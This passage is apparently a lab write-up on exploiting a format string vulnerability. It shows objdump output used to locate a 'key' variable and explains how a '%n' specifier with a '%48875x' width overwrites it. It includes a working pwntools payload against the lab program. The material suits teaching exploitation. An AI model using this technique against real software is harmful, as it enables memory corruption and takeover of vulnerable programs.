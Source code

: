 By using `%n`, we can save a value to a pointer of an integer, and to get the address of an integer from a program, we can use `objdump -t`.

```bash
seed@c92700e7a690:~$ objdump -t program

program:     file format elf32-i386

SYMBOL TABLE:
080481b4 l    d  .interp        00000000              .interp
080481c8 l    d  .note.gnu.build-id     00000000              .note.gnu.build-id
080481ec l    d  .note.gnu.property     00000000              .note.gnu.property
(...)
0804c034 g     O .bss   00000004              key
(...)
0804c030 g     O .data  00000000              .hidden __TMC_END__
08049000 g     F .init  00000000              .hidden _init
```

So now we have the address of the `key` variable (`0x0804c034`) and the necessary format string. And here we face the next problem. `0xbeef` corresponds to `48879` if interpreted as an integer, and `%n` counts the number of characters before the `%` and saves that number to a register. So what we have to do is send a buffer with `48879` characters, a `%n`, and the address of the key to update the variable value. But we can't because the `scanf` call only accepts 32 bytes, and the buffer that will hold our message is also 32 bytes long.

Because we can't send `48879` characters, we will need a workaround. The format of a format string is also specified in the man pages:

```json
The overall syntax of a conversion specification is:

           %[$][flags][width][.precision][length modifier]conversion
```

We can change the width of the printed message to whichever value we want, so we can add a random value between the address and the `%n` (using `%x`) with the necessary width to get enough characters before the `%n`. We are able to send this new string because we are not sending more than 32 bytes, only the representation will be larger than 32 bytes. The value of an address is 4 bytes, so the width will be 48879-4=48875: `%48875x`

The final detail needed is to reference correctly the address to which the `%n` will send the value, we need to add a `$1` to the `%n` for it to reference the first 4 bytes sent. This way, the value from %n will be saved to the key variable.

With all the information gathered, we can make our payload:

```python
from pwn import *
(...)
p.recvuntil(b"got:")
p.sendline(b"\x34\xc0\x04\x08" + b"%48875x" +b"%1$n")
p.interactive()
```

And we can run the script:
